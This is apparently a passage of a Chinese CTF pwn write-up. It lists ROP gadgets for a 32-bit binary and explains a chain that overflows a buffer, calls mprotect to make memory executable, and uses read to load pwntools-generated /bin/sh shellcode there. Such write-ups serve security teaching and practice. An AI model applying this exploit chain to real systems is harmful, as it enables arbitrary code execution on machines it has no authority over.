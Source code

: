 ```c
0x08065cfa : pop es ; ret
0x080a019c : pop esi ; pop ebp ; ret
0x0806dfe9 : pop esi ; pop ebx ; pop edx ; ret
0x08061c3c : pop esi ; pop ebx ; ret
0x0804834a : pop esi ; pop edi ; pop ebp ; ret
0x0805d6f0 : pop esi ; pop edi ; pop ebp ; ret 4
0x080a1db5 : pop esi ; pop edi ; pop ebp ; ret 8
0x08069cbd : pop esi ; pop edi ; pop ebx ; ret
0x08049bda : pop esi ; pop edi ; ret
0x08049808 : pop esi ; ret
0x08054706 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0809e12e : pop esp ; ret
0x0805ad28 : pop esp ; ret 0x8b38
0x080622c9 : pop ss ; ret 0x2c73
0x08062c8a : pop ss ; ret 0x3273
0x080622b4 : pop ss ; ret 0x3e73
0x08062c70 : pop ss ; ret 0x4c73
0x0806229f : pop ss ; ret 0x5073
0x0806228a : pop ss ; ret 0x6273
0x08062c56 : pop ss ; ret 0x6673
0x08060805 : pop ss ; ret 0x830f
```

通过指令找到这样的gadget

0x08056194

这个gadget就能作为mprotect的返回地址

填充地址                               0x12+4

mprotect函数                      0x0806cdd0

返回地址                               0x08056194

mprotect的三个参数           0x080da000      0x100     0x7

read函数                               0x0806BEE0

shellcode由asm方法生成

```python
shellcode = asm(shellcraft.sh(),arch='i386',os='linux')
```

然后是read部分的payload

read函数 + read函数返回地址(就是我们shellcode所在地址-即我们修改的内存空间的起始地址) + read参数1 + read参数2(就是我们shellcode地址) + read参数3(read读取的大小)

read的参数1是文件标识符

即fd

常态下，fd=0即可

所以read参数1写0就可

至于参数2和参数3，shellcode写在got，所以参数2为got表起始地址，参数3就写内存区域大小即可
